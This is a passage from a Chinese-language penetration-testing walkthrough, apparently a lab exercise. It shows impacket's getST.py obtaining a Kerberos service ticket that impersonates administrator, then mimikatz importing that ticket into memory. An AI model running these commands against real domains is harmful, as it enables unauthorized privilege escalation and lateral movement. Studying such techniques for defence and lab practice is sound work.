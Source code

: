 ### 连接目标获取票据

这里需要使用到impacket工具，并且使用到python3.10及以上版本，可能低版本的存在一些小问题。

[impacket工具](https://github.com/fortra/impacket)

```
proxychains python getST.py -dc-ip 192.168.3.33 xiaodi.local/test1\$:123456 -spn cifs/data.xiaodi.local -impersonate administrator
```

![image-20230807194554762](assets/image-20230807194554762.png)

### 导入票据到内存

这里将刚刚生成的票据导入到内存中，由于票据是本地生成的，那么就需要先将票据上传到所控主机上后在进行导入。

```
mimikatz kerberos::ptc administrator.ccache
```

![image-20230807194836516](assets/image-20230807194836516.png)
